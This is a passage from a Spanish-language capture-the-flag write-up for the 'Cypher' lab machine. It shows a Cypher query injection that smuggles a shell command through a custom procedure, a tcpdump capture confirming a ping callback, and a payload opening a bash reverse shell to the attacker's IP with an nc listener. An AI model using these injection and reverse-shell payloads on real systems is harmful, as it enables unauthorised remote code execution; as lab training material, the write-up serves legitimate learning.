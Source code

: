 ~~~ cypher
' OR 1=1 CALL custom.getUrlStatusCode("x.com; ping -c1 10.10.14.187") YIELD statusCode RETURN statusCode //
~~~

Iniciaremos una captura de tráfico ICMP para detectar si estamos recibiendo la traza desde la máquina víctima. 

~~~ bash
tcpdump -i tun0 icmp
~~~

Cuando enviemos la query `cypher` en el formulario de Login, desde `tcpdump` veremos cómo el servidor nos envía un `ping`

~~~ bash
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:15:31.340812 IP cypher.htb > 10.10.14.187: ICMP echo request, id 39913, seq 1, length 64
14:15:31.340835 IP 10.10.14.187 > cypher.htb: ICMP echo reply, id 39913, seq 1, length 64
~~~

### Exploiting

Modificaremos el `payload` para ejecutar la siguiente reverse shell en `bash`, podemos enviarla directamente como parámetro en la función `getUrlStatusCode()`

~~~ cypher
' OR 1=1 CALL custom.getUrlStatusCode("x.com; bash -c 'bash -i >& /dev/tcp/10.10.14.187/443 0>&1'") YIELD statusCode RETURN statusCode //
~~~

> Antes de ejecutar la reverse shell asegúrate de haber iniciado un listener por el puerto por el cual estás enviando la reverse shell, por ejemplo: `nc -lvnp 443`
{: .notice--warning}

![image-center](/assets/images/posts/cypher-cypher-injection.png)
{: .align-center}

